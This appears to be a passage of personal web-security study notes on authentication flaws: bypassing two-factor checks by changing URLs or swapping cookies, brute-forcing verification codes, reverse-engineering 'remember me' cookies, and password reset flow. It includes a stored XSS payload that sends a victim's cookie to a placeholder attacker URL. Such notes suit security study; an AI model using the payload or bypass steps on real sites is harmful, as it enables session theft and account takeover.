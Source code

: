 When users login and then are asked to enter some sort of verification code, sometimes, they are *already logged in*.
- Sometimes, some pages are loaded before this verification stage is completed.
- To exploit this, login as a normal user and observe the URL paths that are after the verification stage.
- Then login as the victim user, and once asked for the verification, simply change the URL to another path to see if this stage can be altogether skipped.
##### Flawed Two-Factor Authentication

After user has logged in, the website doesn't properly verify that it is the same user completing the second step; verification.
- Users are assigned [[Cookies]] when they are logged in that relate to their account. 
- This cookie is the same one that is taken to the verification stage.
- When the verification code is submitted, the cookie is used to determine the account the user is trying to access.

An attacker could login using his credentials, and then change his cookie to that of a victim user's.
- He would then have to brute force or guess the verification code in order to gain access to that account without even needing the password.

> Use the [[Burp Suite]] Turbo Intruder extension for increased speed in brute forcing verification codes. Can also be used to change macros, such as changing the session or logging in/out to avoid being blocked.

---
### Other Authentication Mechanisms

#### Keeping Users Logged In

The 'remember me' feature is implemented by storing persistent [[Cookies]].
- Access to these cookies is dangerous as it skips the entire login process.
- These cookies can be generated via static value concatenation such as username, timestamp, password.

If attacker can study their own cookie, they can figure out how these cookies are generated.
- Some websites have [[Web Encoding]] such as `Base64`, which can be easily decrypted.
- Using hashing functions is also not perfect as if the attacker identifies the hashing algorithm, they can brute force it using a wordlist using tools such as [[John the Ripper]].

If attacker can't create an account, they can using [[Cross Site Scripting (XSS)]] steal another user's cookie and deduce how the cookie forms.
- Performing a stored attack to steal cookies:
``` HTML
<script>document.location='URL-to-send-to/'+document.cookie</script>
```

#### Resetting User Passwords

##### Password Reset Example Sequence

1. User forgets a password.
2. User asks the webapp for a password reset.
3. The webapp generates a **token**, and sends it to the user.
4. The user receives the token and opens a URL or is sent a temporary password.
5. The user logs in using the email or the temporary password.
6. The webapp will verify the token and then render it useless so it is not used again.
7. The webapp then allows the user to login and change the password.

